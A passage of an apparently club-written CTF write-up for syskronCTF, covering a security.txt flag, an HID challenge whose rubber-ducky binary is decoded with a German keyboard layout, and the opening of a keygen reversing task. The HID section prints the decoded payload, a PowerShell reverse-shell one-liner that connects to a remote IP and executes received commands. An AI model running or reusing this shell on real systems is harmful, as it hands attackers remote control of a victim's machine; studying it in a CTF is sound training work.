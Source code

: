 Flag was here.

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Tuesday/security-txt_3.png)

Flag : `syskronCTF{Wh0-put3-flag3-1nto-0penPGP-key3???}`


# HID 
**(300) # Wednesday ~binary-analysis**  
**Challenge:**  [inject.bin]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/inject.bin)

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/hid_1.png)

We thought this was related to usb rubberducky. That's why we decode the binary file given on the [ducktoolkit](https://ducktoolkit.com/decode#)
site with the German keyboard layout.

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/hid_2.png)

The result was a [pastebin linki ](https://pastebin.com/raw/ZRD8jsvd). 
This link would be wrong if you did not do it with the German keyboard layout.


![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/hid_3.png)

Flag was on the pastebin link.
~~~
$client = New-Object System.Net.Sockets.TCPClient("10.10.10.10syskronCTF{y0u_f0und_m3}",80);$stream = $client.GetStream();[byte[)$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
~~~

Flag : `syskronCTF{y0u_f0und_m3}`


# Key generator 
**(300) # Wednesday ~reverse-engineering**  
**Challenge:** [keygen]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/keygen)

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/key-generator_1.png)

The file given to us was a 64 bit ELF file.

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/key-generator_2.png)

It worked like the picture below, it requested input from us and created a key for us.

![]({{ AUCyberClub.github.io }}/assets/img/syskronctf/Wednesday/Key generator.png)
